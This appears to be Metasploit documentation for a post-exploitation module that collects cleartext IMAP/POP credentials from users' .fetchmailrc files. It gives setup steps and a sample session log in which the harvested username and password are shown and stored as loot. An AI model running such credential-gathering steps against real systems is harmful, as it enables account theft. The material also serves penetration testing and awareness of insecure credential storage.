 ## Vulnerable Application

Post module to obtain credentials saved for IMAP, POP and other mail
retrieval protocols in fetchmail's `.fetchmailrc`.

This file is kept in user's home directories to configure fetchmail,
but contains cleartext credentials.

### Example fetchmailrc file

Example documentation can be found in the fetchmail handbook:
https://docs.freebsd.org/doc/6.0-RELEASE/usr/share/doc/handbook/mail-fetchmail.html#:~:text=fetchmailrc%20serves%20as%20an%20example,user%20on%20the%20local%20system.

```
echo "poll example.com protocol pop3 username \"joesoap\" password \"XXX\"" > ~/.fetchmailrc
```

## Verification Steps

1. Start msfconsole
1. Get a shell on a system
1. Do: `use post/multi/gather/fetchmailrc_creds`
1. Do: `set session [session]`
1. Do: `run`
1. If any `.fetchmailrc` files exist with credentials, they will be read and stored into a loot file.

## Options

## Scenarios

### Ubuntu 22.04.01

```
msf auxiliary(scanner/ssh/ssh_login) > sessions -l

Active sessions
===============

  Id  Name  Type         Information   Connection
  --  ----  ----         -----------   ----------
  1         shell linux  SSH ubuntu @  2.2.2.2:39857 -> 1.1.1.1:22 (1.1.1.1)

msf auxiliary(scanner/ssh/ssh_login) > use post/multi/gather/fetchmailrc_creds
msf post(multi/gather/fetchmailrc_creds) > set session 1
session => 1
msf post(multi/gather/fetchmailrc_creds) > run

[*] Parsing /home/ubuntu/.fetchmailrc
                
.fetchmailrc credentials
========================

 Username  Password  Server       Protocol  Port
 --------  --------  ------       --------  ----
 joesoap   XXX       example.com  pop3

[*] Credentials stored in: /root/.msf4/loot/20221008102916_default_1.1.1.1_fetchmailrc.cred_476989.txt
[*] Post module execution completed
```

